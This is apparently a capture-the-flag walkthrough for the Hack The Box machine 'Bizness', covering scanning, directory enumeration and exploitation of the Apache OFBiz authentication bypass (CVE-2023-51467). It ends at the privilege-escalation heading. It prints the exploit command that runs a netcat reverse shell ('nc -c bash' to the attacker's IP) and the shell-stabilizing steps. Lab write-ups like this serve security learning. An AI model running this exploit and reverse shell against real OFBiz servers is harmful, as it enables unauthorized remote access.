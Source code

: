 # <center> BIZNESS </center>

<p align="center"><img src="https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/bizness/bizness_logo.png"></p>

Hello everyone. Let's solve an easy labeled linux based HTB machine named Bizness.

## Initial step (conifguring your local system)

- Download your open vpn configuration file and connect to htb vpn.
    - ```bash
        sudo openvpn <configuratio_file_name>
      ```
- Join the machine to get an IP. (in my case it is 10.10.11.252).
- tasks given:
    - submit user flag (32 hex characters).
    - submit root flag (32 hex characters).

Now we are good to go. we can access the website through our browser. Now let's dive into our actual hacking stuffs 😉. (Disclaimer: By "hacking", I meant <strong><i>ETHICAL</strong> Hacking</i>)

<hr>

## Scanning and Enumeration


- performing agressive nmap scan on the given ip. (-A stands for agressive in below command)
    - ```bash
        nmap -A -T4 10.10.11.252

        Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-30 22:07 IST
        Warning: 10.10.11.252 giving up on port because retransmission cap hit (6).
        Nmap scan report for bizness.htb (10.10.11.252)
        Host is up (0.41s latency).
        Not shown: 954 closed tcp ports (conn-refused), 43 filtered tcp ports (no-response)
        PORT    STATE SERVICE  VERSION
        22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
        | ssh-hostkey: 
        |   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
        |   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
        |_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
        80/tcp  open  http     nginx 1.18.0
        |_http-title: Did not follow redirect to https://bizness.htb/
        443/tcp open  ssl/http nginx 1.18.0
        | tls-alpn: 
        |_  http/1.1
        | ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
        | Not valid before: 2023-12-14T20:03:40
        |_Not valid after:  2328-11-10T20:03:40
        |_http-title: 400 The plain HTTP request was sent to HTTPS port
        | tls-nextprotoneg: 
        |_  http/1.1
        |_http-server-header: nginx/1.18.0
        |_ssl-date: TLS randomness does not represent time
        Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

        Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
        Nmap done: 1 IP address (1 host up) scanned in 112.27 seconds.
        ```

    - from nmap result we can observe SSH service and Ngnix on ports 80 and 443.
    - Also, a web app is running on port 80, but it is not accessible through ip address, so let's add the ip and it's domain name in out local `/etc/hosts` file and now it can be accessed using the ip (10.10.11.252 in my case) or its domain name `bizness.htb`.
    - ```bash
        sudo nano /etc/hosts
        ```
    - ![host file](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/bizness/editing_host_file.jpg)


- The website is static. After fuzzing it's input fields we can know that there is no case of parameter injection in the website. So now let's do some enumeration and search some hidden directories.

- performing dirsearch.
    - ```bash
        dirsearch -u https://bizness.htb
        ```
    - ![dirsearch result](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/bizness/dirsearch_result.jpg)

## Gaining Initial Access

- the most interesting result I foud was /control/login. (no doubt it's an eye catcher for a hacker 😉). Following the path bizness.htb/control/login took me to an apache ofbiz authentication page. Then I tried fuzzing and bruteforcing some of the passwords for admin user, but it was of no use 😮‍💨.
![ofbiz authentication page](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/bizness/ofbiz_authentication_page.jpg)

Then I remembered a statement "Google: A hacker's bestfriend", so immediately I googled some ways to bypass the ofbiz authentication. There I came to know about Apache OFBiz Authentication Bypass Vulnerability (CVE-2023-51467).
- [check this website](https://threatprotect.qualys.com/2023/12/27/apache-ofbiz-authentication-bypass-vulnerability-cve-2023-51467/) to know more about the vulnerability details and exploit analysis.

Luckily I found an exploit on github that triggers <strong>Remote Code Execution (RCE) </strong>. So it's obvious that my next move would be to get a reverse shell using RCE. So I cloned [this Git repo](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass.git) to my local system.
- ![clonning exploit repo](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/bizness/clone_exploit_repo.jpg)

- <strong>Working on payload</strong>

    - my attacking (tun0) ip: `10.10.14.151` (can be found using ifconfig command)
    - command for netcat reverse shell:
    ```bash
        nc -c bash <ip> <port>
     ```
    - command to execute exploit on remote server:
    ```bash
        python3 exploit.py --url 'URL' --cmd 'CMD'
    ```
    - Final payload:
    ```bash
        python3 exploit.py --url https://bizness.htb --cmd 'nc -c bash 10.10.14.151 1234'
    ```
So finally I started my netcat listener on port 1234 with comman d `nc -lnvp 1234` and then executed the final payload in a next tab.
And voilà, We got a reverse shell.....

- ![getting reverse shell](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/bizness/getting_rev_shell.jpg)

Let's first stabilize the shell using the following commandd:
```bash
    python3 -c 'import pty;pty.spawn("/bin/bash")’
    export TERM=xterm

    press Ctrl + Z

    stty raw -echo; fg
```

Navigating through the file system, we can find the user flag in /home/ofbiz/user.txt file 🫠.

But this is not the  end 🥴. Remember the task, we need to submit the root flag as well. So, lets do some vertical previlege escalation.

## Previlege Escalation

